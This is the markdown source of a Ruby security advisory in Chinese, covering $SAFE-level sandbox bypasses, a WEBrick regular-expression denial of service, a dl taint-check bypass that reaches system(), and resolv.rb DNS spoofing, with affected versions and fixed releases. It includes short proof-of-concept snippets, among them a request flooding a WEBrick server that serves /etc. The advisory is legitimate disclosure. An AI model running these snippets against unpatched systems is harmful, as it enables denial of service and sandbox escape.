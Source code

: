 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 

发现以下安全漏洞。

### 

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。
  
      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }
      
      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。
  
      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join
      
      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。
  
      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end
      
      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。
  
      require "syslog"
      
      Syslog.open
      
      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### 

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### 

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### 

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 


: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本


: * r18423 和所有之前的修订版本

## 


: 请更新到1.8.6-p286或者1.8.7-p71。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]
    
        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)
  
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]
    
        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)



: 请通过Subversion取得最新版本。
  
      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz 
